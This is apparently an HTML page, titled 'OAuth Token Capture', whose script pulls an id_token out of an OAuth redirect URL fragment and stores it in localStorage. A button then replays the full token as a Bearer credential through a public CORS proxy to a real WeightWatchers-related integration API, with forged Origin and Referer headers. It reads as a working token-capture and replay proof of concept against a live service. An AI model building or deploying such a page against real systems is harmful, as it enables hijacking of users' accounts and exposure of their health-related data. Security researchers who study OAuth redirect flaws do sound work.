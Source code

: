 <!DOCTYPE html>
<html>
<head>
  <title>OAuth Token Capture</title>
</head>
<body>
  <h1>OAuth Token Capture (Static GitHub Page)xxx</h1>
  <p id="status">Waiting for token...</p>
  <textarea id="log" rows="20" cols="100" readonly></textarea>
  <button onclick="makeAuthorizedRequest()">🌐 Send Authenticated Request</button>
  <iframe id="responseFrame" style="width:100%; height:300px; border:1px solid #ccc; margin-top:1em;"></iframe>

  <script>
    const hash = window.location.hash;
    const regexMatch = hash.match(/\/auth#(.*?)\&state=/);
    const id_token = regexMatch ? regexMatch[1] : null;

    const logBox = document.getElementById("log");
    const status = document.getElementById("status");

    if (id_token) {
      const shortToken = id_token.slice(0, 20) + '...' + id_token.slice(-20); // Truncate token
      const time = new Date().toISOString();
      const entry = `--- ${time} ---\nToken: ${shortToken}\nURL: ${window.location.href.split("#")[0]}\n\n`;

      const existing = localStorage.getItem("token_logs") || "";
      const updated = existing + entry;
      localStorage.setItem("token_logs", updated);

      logBox.value = updated;
      status.textContent = "✅ Token captured and saved in your browser (localStorage).";
    } else {
      status.textContent = "⚠️ No id_token found in URL fragment.";
      logBox.value = localStorage.getItem("token_logs") || "";
    }

    function makeAuthorizedRequest() {
      if (!id_token) return alert("No token found to send");

      const proxyUrl = "https://cors-anywhere.herokuapp.com/";
      const targetUrl = "https://ww-integration-api.joinsequence.com/api/v1/ww/clinic-tab-init?locale=en-US&path=%2F";

      fetch(proxyUrl + targetUrl, {
        method: "GET",
        headers: {
          "Authorization": `Bearer ${id_token}`,
          "Accept": "application/json, text/plain, */*",
          "Ww-Ssid": "en-US-1466641065.1750185",
          "Ww-Client": "rsw",
          "Origin": "https://www.weightwatchers.com",
          "Referer": "https://www.weightwatchers.com/"
        }
      })
      .then(response => response.text())
      .then(data => {
        const frame = document.getElementById("responseFrame");
        frame.srcdoc = `<pre>${data.replace(/</g, '&lt;')}</pre>`;
      })
      .catch(err => alert("Error making request: " + err));
    }
  </script>
</body>
</html>
